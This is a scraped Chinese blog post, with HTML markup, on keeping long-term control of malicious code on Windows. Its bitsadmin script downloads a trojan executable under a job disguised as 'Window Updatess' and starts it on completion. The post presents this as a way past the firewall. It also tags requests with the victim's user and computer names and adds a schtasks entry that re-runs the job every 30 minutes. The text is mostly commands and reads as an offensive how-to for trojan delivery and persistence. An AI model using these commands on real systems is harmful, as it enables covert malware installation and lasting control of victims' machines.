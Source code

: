 ```yaml
---
title: 使用计划任务和bitsadmin实现恶意代码长期控守
tags: [windows]
date: 2017-02-26 22:46
---
```

使用计划任务和bitsadmin实现恶意代码长期控守第一步：文件下载由于我们想要不被计算器防火墙拦截的下载木马文件，所以考虑使用Windows自带的命令行工具。使用bitsadmin下载工具就可以做到这点。 这是写好保存的.ps1脚本# 创建一个新的Job,命名为Window Updatessbitsadmin /Create Window Updatess# 指定一个下载任务和下载的地址
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><h1 id="使用计划任务和bitsadmin实现恶意代码长期控守">使用计划任务和bitsadmin实现恶意代码长期控守</h1>
<h2 id="第一步文件下载">第一步：文件下载</h2>
<p>由于我们想要不被计算器防火墙拦截的下载木马文件，所以考虑使用Windows自带的命令行工具。使用bitsadmin下载工具就可以做到这点。 <br>
这是写好保存的.ps1脚本</br></p>
<pre class="prettyprint"><code class=" hljs vala"><span class="hljs-preprocessor"># 创建一个新的Job,命名为Window Updatess</span>
bitsadmin /Create <span class="hljs-string">"Window Updatess"</span>

<span class="hljs-preprocessor"># 指定一个下载任务和下载的地址</span>
bitsadmin /AddFile <span class="hljs-string">"Window Updatess"</span> http:<span class="hljs-comment">//ctf5.shiyanbar.com/423/re/rev2.exe d:\100w.exe</span>

<span class="hljs-preprocessor"># 设置触发事件的条件</span>
bitsadmin /SetNotifyFlags <span class="hljs-string">"Window Updatess"</span> <span class="hljs-number">1</span>

<span class="hljs-preprocessor"># 设置作业完成数据传输或作业进入状态将运行的命令行程序</span>
bitsadmin /SetNotifyCmdLine <span class="hljs-string">"Window Updatess"</span> <span class="hljs-string">"%COMSPEC%"</span> <span class="hljs-string">"cmd.exe /c bitsadmin.exe /complete \"Window Updatess\" &amp;&amp; start /B d:\100w.exe"</span>

<span class="hljs-preprocessor"># 设置下载任务出错时重传的延迟</span>
bitsadmin /SetMinRetryDelay <span class="hljs-string">"Window Updatess"</span> <span class="hljs-number">120</span>

<span class="hljs-preprocessor"># 添加自定义的HTTP头</span>
bitsadmin /SetCustomHeaders <span class="hljs-string">"Window Updatess"</span> <span class="hljs-string">"Caller:%USERNAME%@%COMPUTERNAME"</span>

<span class="hljs-preprocessor"># 激活新的任务</span>
bitsadmin /Resume <span class="hljs-string">"Window Updatess"</span> </code></pre>
<p>在PowerShell中执行 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170226224146382?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
创建新的Job <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170226224241226?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
最后激活Job <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170226224525681?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
这样，我们就实现了第一步，就是利用Windows自带的命令行工具实现下载木马，并且不被防火墙拦截。</br></img></br></br></img></br></br></img></br></p>
<h2 id="第二步监控木马">第二步：监控木马</h2>
<p>当受害机器下载执行木马后，为了实现对木马的监控，可以使用服务器实现。由于这个下载本质是也是使用HTTP进行的一次GET请求，也就是说会发送HTTP请求头。我们在ps1脚本中设置了HTTP头：</p>
<pre class="prettyprint"><code class=" hljs perl"><span class="hljs-comment">## 添加自定义的HTTP头</span>
bitsadmin /SetCustomHeaders <span class="hljs-string">"Window Updatess"</span> <span class="hljs-string">"Caller:<span class="hljs-variable">%USERNAME</span><span class="hljs-variable">%@</span><span class="hljs-variable">%COMPUTERNAME</span>"</span></code></pre>
<p>这样，就可以做到监控木马，第二步完成</p>
<h2 id="第三步建立计划任务形式的加载bitsadmin">第三步：建立计划任务形式的加载bitsadmin</h2>
<p>使用schtasks命令建立计划任务来加载bitsadmin执行”Window Update“ <br>
给出具体命令（命令中有标注，具体执行时要去除）</br></p>
<pre class="prettyprint"><code class=" hljs sql">schtasks /<span class="hljs-operator"><span class="hljs-keyword">Create</span> /TN <span class="hljs-string">"Window Update"</span> /TR <span class="hljs-string">"%WINDIR%\system32\bitsadmin.exe /resume \"Windows Update\""</span> /sc <span class="hljs-keyword">minute</span> /MO <span class="hljs-number">30</span> /ED(此任务的最后一次运行时间) <span class="hljs-number">2017</span>/<span class="hljs-number">03</span>/<span class="hljs-number">01</span> /ET <span class="hljs-number">12</span>:<span class="hljs-number">00</span>(最后一次的运行时间) /Z(在任务运行完毕后删除任务) /IT(标志此任务只有在登录情况下才运行) /RU %USERNAME%(指定运行的用户账户)  </span></code></pre>
<p>执行结果 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170226224546697?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p></div>